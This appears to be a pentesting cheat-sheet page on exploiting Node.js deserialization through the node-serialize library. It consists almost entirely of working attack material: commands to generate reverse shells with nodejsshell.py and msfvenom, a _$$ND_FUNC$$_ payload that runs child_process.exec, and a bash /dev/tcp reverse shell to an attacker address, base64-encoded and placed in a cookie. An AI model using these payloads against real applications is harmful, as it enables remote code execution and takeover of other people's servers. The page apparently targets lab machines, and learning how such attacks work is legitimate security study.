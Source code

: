 ```yaml
---
icon: link-slash
---
```


# Deserialization

{% hint style="info" %}
### <mark style="color:orange;">`nodejs`</mark>

* <mark style="color:purple;">Install</mark> <mark style="color:orange;">**`node-serialize`**</mark><mark style="color:purple;">:</mark>

```sh
npm install node-serialize
```

***

[<mark style="color:orange;">**`nodejsshell.py`**</mark>](https://github.com/ajinabraham/Node.Js-Security-Course/blob/master/nodejsshell.py) <mark style="color:purple;">**Method:**</mark>

1. <mark style="color:purple;">Create the node reverse shell:</mark>

```sh
python3 nodejsshell.py 10.10.16.8 4444
```

1. <mark style="color:purple;">Once you have a serialized reverse shell, add it to this function:</mark>

{% code overflow="wrap" %}
```javascript
var y = {
  rce: function(){ADD/THE/PAYLOAD/HERE}
}
var serialize = require('node-serialize');
var s = serialize.serialize(y)
console.log("Serialized: \n" + s.slice(0,-2) + "()" + s.slice(-2,));
```
{% endcode %}

3. <mark style="color:purple;">Now serialize convert to</mark> <mark style="color:orange;">**`base64`**</mark> <mark style="color:purple;">the exploit using</mark><mark style="color:purple;">**:**</mark>

```sh
node exploit.js | tail -n +2 | base64 -w0
```

***

* <mark style="color:orange;">**`msfvenom`**</mark> <mark style="color:purple;">also has a module to generate payloads:</mark>

{% code overflow="wrap" %}
```sh
msfvenom -p nodejs/shell_reverse_tcp LHOST=10.10.14.10 LPORT=1337 -o shell.js
```
{% endcode %}

* <mark style="color:purple;">Another great tool is</mark> [<mark style="color:orange;">**`ysoserial`**</mark>](https://github.com/frohoff/ysoserial)

***

* <mark style="color:purple;">Another way is to get command execution is by using this function:</mark>

{% code overflow="wrap" %}
```javascript
{"rce":"_$$ND_FUNC$$_function (){require('child_process').exec('ls /',
function(error, stdout, stderr) { console.log(stdout) });}()"}
```
{% endcode %}

* <mark style="color:purple;">We can generate a reverse shell out of this by encoding the command first to</mark> <mark style="color:orange;">**`base64`**</mark><mark style="color:purple;">:</mark>&#x20;

```sh
echo 'bash -i >& /dev/tcp/10.10.16.8/4444 0>&1' | base64
```

* <mark style="color:purple;">Now add that string to the function like this:</mark>

{% code overflow="wrap" %}
```javascript
{"rce":"_$$ND_FUNC$$_function (){require('child_process').exec('echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNi44LzQ0NDQgMD4mMQo=|base64 -d|bash',
function(error, stdout, stderr) { console.log(stdout) });}()"}
```
{% endcode %}

* <mark style="color:purple;">Now</mark> <mark style="color:orange;">`URL`</mark> <mark style="color:purple;">encode the payload and add it to the cookie.</mark>
{% endhint %}
